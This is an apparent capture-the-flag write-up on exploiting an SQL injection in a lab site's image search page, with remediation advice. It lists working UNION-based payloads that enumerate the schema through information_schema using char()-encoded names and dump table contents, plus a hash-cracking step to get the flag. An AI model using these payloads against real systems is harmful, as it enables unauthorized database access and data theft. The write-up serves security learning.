 # 06 - SQL Injection Images

## Reproduce

We found an SQL Injection in image search page: `http://{IP}/?page=searchimg`

- Get the database name: `1 AND 0=1 UNION SELECT 1, database()` 
===> `Member_images`

- Get the table name: `1 AND 0=1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115)` 
===> `list_images`

- Get columns name: `1 AND 0=1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = char(108,105,115,116,95,105,109,97,103,101,115)`
===> 
`
{
    'id',
    'url',
    'title',
    'comment'
}
`

- Let's list the `title + comment` of all the images :
`1 AND 0=1 UNION SELECT title,comment FROM list_images`

In the comment of 'Hack me ?' we found this:
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46` 

And that what we did :)
- Decode 1928e8083cf461a51303633093573c46 with MD5 ==> 'albatroz'
- Encode 'albatroz' using Sha256 ==> Tadaaaaaa flag


## Explaination of the vurnability

SQL injection: is a code injection technique that might destroy your database.


## Fix 

- Use of Prepared Statements (with Parameterized Queries) for example in :
    - JAVA EE use: PreparedStatement() with bind variables.
    - PHP use: PDO (PHP Data Object) with strongly typed parameterized queries.
- Don't construct queries with user input whitout verifications.
